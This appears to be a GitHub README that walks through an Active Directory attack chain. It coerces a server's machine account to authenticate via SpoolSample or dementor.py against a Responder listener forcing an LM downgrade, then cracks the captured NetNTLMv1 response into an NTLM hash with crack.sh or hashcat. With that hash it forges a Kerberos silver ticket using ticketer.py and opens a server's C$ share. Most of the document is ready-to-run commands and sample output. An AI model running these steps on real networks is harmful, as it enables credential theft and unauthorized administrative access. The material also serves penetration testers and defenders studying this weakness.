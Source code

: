 # SpoolSample -> NetNTLMv1 -> NTLM -> Silver Ticket

This technique has been alluded to by others, but I haven't seen anything cohesive out there.  Below we'll walk through the steps of obtaining NetNTLMv1 Challenge/Response authentication, cracking those to NTLM Hashes, and using that NTLM Hash to sign a Kerberos Silver ticket.

This will work on networks where "LAN Manager authentication level" is set to 2 or less. This is a fairly common scenario in older, larger Windows deployments.  It should not work on Windows 10 / Server 2016 or newer.

## There are 3 main steps

Obtain a NetNTLMv1 Response of a machine account vis @tifkin_'s (Lee Christensen's) SpoolSample

Crack that NetNTLMv1 Response back into an NTLM Hash using @0x31337's (David Hulton's) Rainbow Tables

Generate a Silver Ticket using the newly obtained NTLM Hash using @agsolino's (Albert Solino's) ticketer.py

## Obtain a NetNTLMv1 Response

### Identify potentially vulnerable machines

Using Powershell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

    Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders &gt; servers.txt

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) SpoolerScanner, see if the Spooler Service is listening

    ForEach ($server in Get-Content servers.txt) {Get-SpoolSample $server}

### Start Responder with the --lm flag to force a LM downgrade

    ./Responder.py -I eth0 --lm

### Trigger an authentication

    SpoolSample.exe TARGET RESPONDERIP

or use 3xocyte's dementor.py if you're on Linux

    python dementor.py -d domain -u username -p password RESPONDERIP TARGET

Example Response:

```bash
[SMB] NTLMv1 Client   : 10.0.0.2
[SMB] NTLMv1 Username : DOMAIN\SERVER$
[SMB] NTLMv1 Hash     : SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

## Crack the NetNTLMv1 responses back into an NTLM Hash

You can use a set of Rainbow Tables to reverse the NTHASH to NTLM, or you can reverse it to its DES constituent components and crack it with hashcat.  

An 8x 1080 rig can brute force it in about 6 days, so consider Rainbow Tables.

### Rainbow Tables

1. For Rainbow Tables, there is a service hosted at [https://crack.sh/netntlm/](https://crack.sh/netntlm/) that will recover NTLM from NetNTLMv1 for free. This is provided by David Hulton of Toorcon.  We're working on a local copy of the rainbow tables and software that does not require and FPGA for lookups.

2. For crack.sh, the format is
     NTHASH:(response), so NTHASH:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972 from the example.

### Or Cracking Them with hashcat

1. @evil_mog's [ntlmv1-multi](https://github.com/evilmog/ntlmv1-multi) tool below can break them

```bash
python ntlmv1.py --nossp SERVER$::DOMAIN:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972:1122334455667788
```

This will return the below output with instructions:

```bash
Hashfield Split:
['SERVER$', '', 'DOMAIN', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', 'F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972', '1122334455667788']

Hostname: DOMAIN
Username: SERVER$
Challenge: 1122334455667788

LM Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972
NT Response: F35A3FE17DCB31F9BE8A8004B3F310C150AFA36195554972

CT1: F35A3FE17DCB31F9
CT2: BE8A8004B3F310C1
CT3: 50AFA36195554972

To Calculate final 4 characters of NTLM hash use:
./ct3_to_ntlm.bin 50AFA36195554972 1122334455667788


To crack with hashcat create a file with the following contents:
F35A3FE17DCB31F9:1122334455667788
BE8A8004B3F310C1:1122334455667788

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

## Create a Kerberos Silver Ticket

You'll need to find a few pieces of information for this: SPN of the service you want to access, domain SID, domain user account SID and account name with local admin access, and a domain group that user is a member of if it's group-based local admin.

For the service, the most common will be cifs/ as it maps back to the HOST/ service

### Generate a Silver Ticket using Impacket's ticketer.py

```bash
./ticketer.py -nthash 09e55a127f3d4e4957c77de30000502a -domain-sid S-1-5-21-7375663-6890924511-1272660413 -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
```

### Set the generated ccache file to the appropriate environment variable

```bash
export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache
```

### Use smbclient, wmiexec,  psexec, or any other impacket tool

```bash
smbclient -k //SERVER.DOMAIN.COM/c$ -d
```

## Work left to do

* Distribute 6TB of Rainbow Tables
  * Torrent w/@0x31337's Permission?
  * DEF CON Data Duplication Village?

* Modify @0x31337's [desrtop](https://github.com/h1kari/desrtop) to not require an FPGA
  * Outside my personal wheelhouse, but I'm grinding anyway

* Identify more ways to trigger a machine account authentication remotely
  * xp_dirtree is another path
  * Anyone willing to share others they may have found?
